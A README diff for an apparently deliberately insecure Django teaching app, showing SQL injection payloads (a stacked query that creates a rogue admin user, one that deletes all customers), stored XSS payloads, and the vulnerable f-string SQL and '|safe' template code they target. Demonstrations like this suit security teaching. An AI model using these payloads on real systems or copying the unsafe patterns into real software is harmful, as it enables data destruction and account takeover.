

Before and after one commit to 100adim/computer-security-Unsecured, a Markdown page: README.md, the part around the change printed below. Shown: that part at 88% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -209,75 +171,32 @@ INSERT INTO mainapp_user (...) VALUES ('test-sqli','','','');DELETE FROM mainapp
 # mainapp/views.py - add_customer() function
-query = f"""
-    INSERT INTO mainapp_customer (first_name, last_name, id_number, created_by)
-    VALUES ('{first_name}', '{last_name}', '{id_number}','{username}');
-"""
-```
 
 #### **Attack Payload:**
+
 ```sql
-First Name: John'); INSERT INTO mainapp_user VALUES ('hacker', 'hacker@evil.com', 'adminpass', 'salt'); --
-Last Name: Doe
-ID: 123456789
+First Name: TEST
+Last Name: TEST
+ID: 123','');DELETE FROM mainapp_customer;--
 ```
-
-#### **What Happens:**
-```sql
--- Intended query:
-INSERT INTO mainapp_customer (...) VALUES ('John', 'Doe', '123456789', 'user');
-
--- Malicious query:
-INSERT INTO mainapp_customer (...) VALUES ('John'); INSERT INTO mainapp_user VALUES ('hacker', 'hacker@evil.com', 'adminpass', 'salt'); --', 'Doe', '123456789', 'user');
-
--- Result: Customer added AND new admin user created!
-```
-
 ---
 
 ## 🚨 **XSS Attack Demonstrations**
 
-### **🎯 Stored XSS Attack 1: Customer List**
+### **🎯 Stored XSS Attack: Customer List**
 
-#### **Vulnerable Code Location:**
-```html
-<!-- mainapp/templates/mainapp/customer_list.html -->
-<td>{{ customer.first_name|safe }} {{ customer.last_name|safe }}</td>
-<td>{{ customer.id_number|safe }}</td>
-```
-
-**⚠️ The `|safe` filter disables Django's XSS protection!**
+# mainapp/views.py - add_customer() function
 
 #### **Attack Payload:**
+
 ```html
-First Name: <script> alert("XSS") </script>
-Last Name: Victim
-ID: 999999999
+First Name: TESTXSS
+Last Name: TESTXSS
+ID: <script> alert("XSS") </script>
 ```
 
 #### **What Happens:**
 1. Malicious script stored in database
 2. Every user viewing customer list executes the script
 3. **Persistent attack** affects all users
-
----
-
-### **🎯 Stored XSS Attack 2: System Dashboard**
-
-#### **Vulnerable Code Location:**
-```html
-<!-- mainapp/templates/mainapp/system.html -->
-{% if new_customer %}
-    ✅ New customer added: {{ new_customer.first_name|safe }} {{ new_customer.last_name|safe }}
-{% endif %}
-```
-
-#### **Attack Payload:**
-```html
-First Name: <img src="x" onerror="alert('Dashboard Hacked!');">
-```
-
-#### **What Happens:**
-1. Script executes immediately on dashboard after customer creation
-2. **Immediate impact** on the user who created the customer
 
 ---
 
````
Also changed, not shown: other parts of README.md (+6 -44 lines).
